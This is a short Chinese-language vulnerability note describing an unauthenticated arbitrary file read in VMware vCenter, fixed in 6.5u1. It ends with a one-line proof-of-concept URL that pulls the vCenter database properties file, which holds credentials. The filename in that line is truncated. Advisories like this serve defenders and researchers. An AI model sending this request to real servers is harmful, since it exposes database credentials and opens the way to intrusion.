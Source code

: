 # VMware vCenter未授权任意文件读取

### 原文链接

> https://twitter.com/ptswarm/status/1316016337550938122

在VMware vCenter中发现了一个未经身份验证的任意文件读取漏洞。VMware透露此漏洞已在6.5u1中修复，但未分配CVE

![img](/Users/aresx/Documents/VulWiki/Web%E5%AE%89%E5%85%A8/Vmware%20vCenter/.resource/VMware%20vCenter%E6%9C%AA%E6%8E%88%E6%9D%83%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96/media/640-20201014105633643.jpeg)



***\*POC\**:**

```
http://x.x.x.x/eam/vib?id=c:\programData\Vmware\vCenterServer\cfg\vmware-vpx\vcdb.properti
```